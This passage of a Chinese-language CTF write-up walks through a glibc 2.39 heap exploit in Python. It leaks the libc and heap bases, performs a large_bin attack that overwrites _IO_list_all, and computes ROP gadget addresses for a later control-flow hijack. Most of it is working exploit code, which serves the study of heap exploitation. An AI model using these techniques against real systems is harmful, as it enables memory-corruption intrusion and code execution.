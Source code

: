 ```python
add_c(1,0x500)
add_c(2,0x500)
add_c(3,0x500)
del_c(2)
show_c(2)
libc_base=u64(r.recv(6).ljust(8,b"\x00"))-0x203B20
print(hex(libc_base))
del_c(0)
show_c(0)
heap_start=u64(r.recv(6).ljust(8,b"\x00"))-0xCB0
print(hex(heap_start))
del_c(1)
del_c(3)
```

然后申请一些chunk,free掉一些,然后再次申请chunk,使chunk2从unsorted_bin被转移进large_bin.

```python
add_c(0,0x500)
add_c(1,0x510)
add_c(2,0x510)
add_c(3,0x510)
add_c(4,0x510)
add_c(5,0x900)
add_c(6,0x900)
add_c(7,0x510)

del_c(5)

del_c(6)


del_c(2)

add_c(8,0x650)#申请一个比chunk2大的chunk,保证chunk2进入large_bin
```

然后修改chunk2的bk_nextsize指针,让它指向\_IO\_list\_all-0x20,最后将一个小于chunk2(准确的说,是小于large_bin中所有chunk)的chunk整理到chunk2前面,完成large_bin_attack,将\_IO\_list\_all覆写为chunk0的地址.

```python
libc=ELF("./libc-2.39.so")
iolistall_add=libc_base+libc.sym["_IO_list_all"]
edit_c(2,p64(0)*3+p64(iolistall_add-0x20))

del_c(0)
add_c(9,0x650)
```

接下来,我们准备一些地址:

```python
chunk0_add=heap_start+0x290
wide_data_add=chunk0_add+0x520 #chunk1 user text add
add_1=wide_data_add+0x88

rdi_add=0x10f75b+libc_base
rsi_add=0x110a4d+libc_base
rdx_add=0x9819d+libc_base #pop rdx; lea; ret;
ret_add=0x1296c5+libc_base
rsp_add=0x3c058+libc_base
rbp_add=0x28a91+libc_base #由于这题是pop rdx; lea; ret; ,所以我们还需要控制rbp
binsh_add=next(libc.search(b"/bin/sh"))+libc_base #其实这题用不上这个
sys_add=libc.sym["system"]+libc_base #同上
svcudp_reply=0x17923D+libc_base#glibc2.39 ubuntu 8.3 之后
swapcontext=0x5814D+libc_base
```